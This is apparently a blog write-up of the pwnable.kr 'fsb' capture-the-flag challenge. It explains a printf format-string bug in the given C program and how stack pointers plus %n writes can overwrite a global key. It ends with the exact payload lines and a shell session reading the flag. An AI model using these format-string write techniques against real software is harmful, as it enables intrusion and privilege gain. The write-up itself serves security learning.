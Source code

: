 ```yaml
---
layout: post
title: Pwnable.kr - FSB
published: True
---
```


For this pwnable, we are given a program and its corresponding source code:

{% highlight C %}
#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
	char* args[]={"/bin/sh", 0};
	int i;

	char*** pargv = &argv;
	char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
	*pargv=0;
	*penvp=0;

	for(i=0; i<4; i++){
		printf("Give me some format strings(%d)\n", i+1);
		read(0, buf, 100);
		printf(buf);
	}

	printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);
        if(pw == key){
                printf("Congratz!\n");
                execve(args[0], args, 0);
                return 0;
        }

        printf("Incorrect key \n");
	return 0;
}

int main(int argc, char* argv[], char** envp){

	int fd = open("/dev/urandom", O_RDONLY);
	if( fd==-1 || read(fd, &key, 8) != 8 ){
		printf("Error, tell admin\n");
		return 0;
	}
	close(fd);

	alloca(0x12345 & key);

	fsb(argv, envp); // exploit this format string bug!
	return 0;
}
{% endhighlight %}

Running checksec on it reveals that partial RELRO and NX are enabled.

{% highlight bash %}
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
{% endhighlight %}

Note that the `alloca()` call randomizes the stack addresses because it uses `key` in the calculation of its argument.

## Vulnerability
The vulnerability is clear in the source code. 
The program asks the user for input 4 times, each time storing the data from `stdin` in the global variable `char buf[100]` which is located in the **.bss section** and printing out `buf` each time by calling `printf(buf)`.
The `printf(buf)` introduces a format string vulnerability that allows users to read arbitrary values off the stack and to write arbitrary values to stack pointers.

{% highlight bash %}
rh0gue@vexillum:~/Documents/pwnable.kr/fsb$ python -c 'print ".%x"*20' | ./fsb
Give me some format strings(1)
.804a100.64.0.0.0.0.0.0.8048870.0.0.ffffd5a8.ffffdff1.fffed3f0.fffed3f4.0.0.ffffd478.8048791.0
{% endhighlight %}

## Exploitation
Exploiting this format string bug is a little tricky. 
We want to bypass the `pw == key` check by overwriting the `key` with our chosen value.

![](../img/fsb.png)

Unfortunately, because the user input is stored in the **.bss** and not on the stack, we can't just directly "hardcode" an address through stdin and overwrite its pointer value. Whatever we write through stdin will be stored in the *.bss* section and will therefore not show up when we pop values off the stack by using the "%x" format specifier. 
However, if we look at the stack when the vulnerable `printf()` is called, we can see something interesting.

{% highlight bash %}
gdb-peda$ context stack 25
--More--(25/25)
[------------------------------------stack-------------------------------------]
0000| 0xffffb9b0 --> 0x804a100 ("AAAA\n")
0004| 0xffffb9b4 --> 0x804a100 ("AAAA\n")
0008| 0xffffb9b8 --> 0x64 ('d')
0012| 0xffffb9bc --> 0x0 
0016| 0xffffb9c0 --> 0x0 
0020| 0xffffb9c4 --> 0x0 
0024| 0xffffb9c8 --> 0x0 
0028| 0xffffb9cc --> 0x0 
0032| 0xffffb9d0 --> 0x0 
0036| 0xffffb9d4 --> 0x8048870 ("/bin/sh")
0040| 0xffffb9d8 --> 0x0 
0044| 0xffffb9dc --> 0x0 
0048| 0xffffb9e0 --> 0xffffdd90 --> 0x0 
0052| 0xffffb9e4 --> 0xffffdfcd --> 0x6f682f00 ('')
0056| 0xffffb9e8 --> 0xffffba00 --> 0x0 
0060| 0xffffb9ec --> 0xffffba04 --> 0x0 
0064| 0xffffb9f0 --> 0x0 
0068| 0xffffb9f4 --> 0x0 
0072| 0xffffb9f8 --> 0xffffdc98 --> 0x0 
0076| 0xffffb9fc --> 0x8048791 (<main+178>:     mov    eax,0x0)
0080| 0xffffba00 --> 0x0 
0084| 0xffffba04 --> 0x0 
0088| 0xffffba08 --> 0x0 
0092| 0xffffba0c --> 0x0 
0096| 0xffffba10 --> 0x0 
{% endhighlight %}

We see that on the stack there are pointers to other address on the stack. So, while we can't "hardcode" any arbitrary address in our user input, we can still use one of these aforementioned pointers to write an arbitrary address onto the stack.

In other words, we can use the "%n" format specifier in combination with **direct parameter access** to access the 15th argument on the stack, `0xffffba04`, and write the number of chars used in our input to that address. 

We can choose to write the address of `key` to that stack location, since we want to control its value. 

In order to do that, we will need to include 0x804a060, or 134520928, characters in our input.

After writing the address of `key` onto the stack, we will want to write a value to that address. We can write `0x00000000` to that address again using **direct parameter access**; only now, the argument we want to access is the 21st argument on the stack.

Doing this overwrites the upper half, or 4 bytes, of the key. We can then just repeat these steps to overwrite the lower half of the key, except we will want to include 134520932 characters in our input to write to address `0x804a064`. 

Finally, we can pass the `pw == key` check by inputting `0` as our key.

The following inputs will spawn a shell

## Solution

{% highlight bash %}
%134520928x%15$n
%21$n
%134520932x%15$n
%21$n
0

[...]

Give me some format strings(4)
%21$n

0932x
Wait a sec...
key : 
0
Congratz!
$ id
uid=1028(fsb) gid=1028(fsb) egid=1029(fsb2) groups=1028(fsb)
$ ls
flag  fsb  fsb.c
$ cat flag
Have you ever saw an example of utilizing [n] format character?? :(


{% endhighlight %}

